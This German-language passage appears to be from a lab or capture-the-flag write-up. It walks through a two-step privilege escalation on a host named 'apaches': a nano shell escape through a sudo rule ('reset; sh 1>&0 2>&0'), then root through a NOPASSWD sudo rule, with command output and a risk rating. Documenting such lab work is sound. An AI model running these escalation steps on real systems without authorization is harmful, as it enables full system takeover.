Kurzbeschreibung: Die finale Privilegienerweiterung zu Root erfolgt in mehreren Schritten. Zuerst wird eine `sudo`-Regel ausgenutzt, die es dem Benutzer `pocahontas` erlaubt, `nano` als Benutzer `geronimo` auszuführen. Dies wird verwendet, um eine Shell als `geronimo` zu erlangen. Anschließend wird festgestellt, dass `geronimo` volle `sudo`-Rechte ohne Passwortabfrage auf alle Befehle hat, was den direkten Wechsel zu `root` ermöglicht.
Voraussetzungen:
Schritt-für-Schritt-Anleitung:
Schritt 1: Eskalation von `pocahontas` zu `geronimo` via `sudo nano`
&0 2>&0', was zu einer Shell als geronimo führt.">Analyse Schritt 1: Das Bild `zeigt_nano_priv_esc_zu_geronimo.jpg` visualisiert den Prozess. Als `pocahontas` wird der Befehl `sudo -u geronimo /bin/nano` ausgeführt. Innerhalb von `nano` werden die Tastenkombinationen `Strg+R` (Read File) und dann `Strg+X` (Execute Command) gedrückt. In die erscheinende Befehlszeile wird `reset; sh 1>&0 2>&0` eingegeben und ausgeführt. Dies startet eine Shell als Benutzer `geronimo`.
Bewertung Schritt 1: Die Eskalation zu `geronimo` war erfolgreich unter Ausnutzung der `sudo nano`-Schwachstelle/Fehlkonfiguration.
Schritt 2: Überprüfen der `sudo`-Rechte als `geronimo` und Eskalation zu `root`
uid=1000(geronimo) gid=1000(geronimo) groups=1000(geronimo),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
Matching Defaults entries for geronimo on apaches:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User geronimo may run the following commands on apaches:
(ALL : ALL) ALL
(ALL) NOPASSWD: ALL
root@apaches:/home/sacagawea/Development/admin#
Analyse Schritt 2: 1. In der Shell als `geronimo` (erkennbar am Prompt `$`) wird `id` ausgeführt, was die UID und Gruppenmitgliedschaften von `geronimo` bestätigt, einschließlich der wichtigen Gruppe `sudo`. 2. `sudo -l` wird ausgeführt. Die Ausgabe zeigt, dass `geronimo` alle Befehle (`ALL`) als jeder Benutzer (`ALL : ALL`) und insbesondere alle Befehle ohne Passwort (`(ALL) NOPASSWD: ALL`) ausführen darf. 3. `sudo su` wird ausgeführt. Da `geronimo` `NOPASSWD: ALL` hat, wird ohne Passwortabfrage eine Root-Shell gestartet, was durch den Prompt `root@apaches:...#` bestätigt wird.
Bewertung Schritt 2: Volltreffer! Der Benutzer `geronimo` hat uneingeschränkte `sudo`-Rechte ohne Passwort. Dies ist die direkteste Form der Privilegienerweiterung zu `root`. Das Ziel ist erreicht.
Erwartetes Ergebnis: Durch die Ausführung dieser Schritte wird voller Root-Zugriff auf dem Zielsystem erlangt.
Beweismittel: Die Shell-Prompts und `id`-Ausgaben, die den Wechsel zu `geronimo` und dann zu `root` zeigen, sowie die Ausgabe von `sudo -l` für `geronimo`.
Risikobewertung: Die Kombination der `sudo nano`-Fehlkonfiguration und der `NOPASSWD: ALL`-Berechtigung für `geronimo` stellt ein maximales Risiko (Kritisch/Hoch) dar, da sie eine Kette zur vollständigen Systemübernahme ermöglicht.
Empfehlungen zur Behebung: